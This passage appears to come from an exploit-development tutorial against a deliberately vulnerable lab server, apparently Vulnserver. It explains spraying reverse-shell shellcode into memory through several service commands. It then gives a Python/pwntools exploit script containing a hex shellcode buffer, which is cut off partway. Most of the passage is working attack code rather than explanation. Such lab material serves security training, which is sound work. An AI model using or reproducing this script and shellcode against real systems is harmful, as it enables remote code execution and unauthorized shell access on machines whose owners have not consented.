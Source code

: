 Finally to position our reverse shell in memory we need to establish a new connection to the service using one of the other commands. As we don't precisely know where our reverse shell will land, we need to enumerate through all the other commands like so:

```python
    parameters = [b"STATS",b"RTIME",b"LTIME",b"SRUN",b"TRUN",b"GMON",b"GDOG",b"HTER",b"LTER",b"KSTAN"]
    for each_cmd in parameters:
        stats_socket = tcp_socket(ip,port)  
        banner = stats_socket.recv(1024)
        stats_payload = store(each_cmd)
        print(f"Sending {str(each_cmd)}")
        stats_socket.send(stats_payload)
        sleep(1)
    stats_socket.close()
```

Once we put it all together our final script should look like this:

```python
#!/usr/bin/python3
from pwn import *
import socket
import argparse
from time import sleep


def main(ip,port):
    payload = make_payload()
    parameters = [b"STATS",b"RTIME",b"LTIME",b"SRUN",b"TRUN",b"GMON",b"GDOG",b"HTER",b"LTER",b"KSTAN"]
    for each_cmd in parameters:
        stats_socket = tcp_socket(ip,port)  
        banner = stats_socket.recv(1024)
        stats_payload = store(each_cmd)
        print(f"Sending {str(each_cmd)}")
        stats_socket.send(stats_payload)
        sleep(1)
    stats_socket.close()
    print(f"Sending exploit. Length: {len(payload)} bytes")
    exploit_socket = tcp_socket(ip,port)  
    #Pull the banner
    banner = exploit_socket.recv(1024)
    print(banner)
    exploit_socket.send(payload)
    exploit_socket.close()


def store(cmd):
    prepend = cmd +b" CFOXCFOX"
    buf = b''
    buf += b"\xda\xd0\xbf\xb8\x33\xa8\xe9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
    buf += b"\x56\x83\xc2\x04\x31\x7a\x14\x03\x7a\xac\xd1\x5d\x15\x24\x97"
    buf += b"\x9e\xe6\xb4\xf8\x17\x03\x85\x38\x43\x47\xb5\x88\x07\x05\x39"
    buf += b"\x62\x45\xbe\xca\x06\x42\xb1\x7b\xac\xb4\xfc\x7c\x9d\x85\x9f"
    buf += b"\xfe\xdc\xd9\x7f\x3f\x2f\x2c\x81\x78\x52\xdd\xd3\xd1\x18\x70"
    buf += b"\xc4\x56\x54\x49\x6f\x24\x78\xc9\x8c\xfc\x7b\xf8\x02\x77\x22"
    buf += b"\xda\xa5\x54\x5e\x53\xbe\xb9\x5b\x2d\x35\x09\x17\xac\x9f\x40"
    buf += b"\xd8\x03\xde\x6d\x2b\x5d\x26\x49\xd4\x28\x5e\xaa\x69\x2b\xa5"
    buf += b"\xd1\xb5\xbe\x3e\x71\x3d\x18\x9b\x80\x92\xff\x68\x8e\x5f\x8b"
    buf += b"\x37\x92\x5e\x58\x4c\xae\xeb\x5f\x83\x27\xaf\x7b\x07\x6c\x6b"
    buf += b"\xe5\x1e\xc8\xda\x1a\x40\xb3\x83\xbe\x0a\x59\xd7\xb2\x50\x35"
    buf += b"\x14\xff\x6a\xc5\x32\x88\x19\xf7\x9d\x22\xb6\xbb\x56\xed\x41"
    buf += b"\xca\x71\x0e\x9d\x74\x11\xf0\x1e\x84\x3b\x37\x4a\xd4\x53\x9e"
    buf += b"\xf3\xbf\xa3\x1f\x26\x55\xae\xb7\x09\x01\xaf\x07\xe2\x53\xb0"
```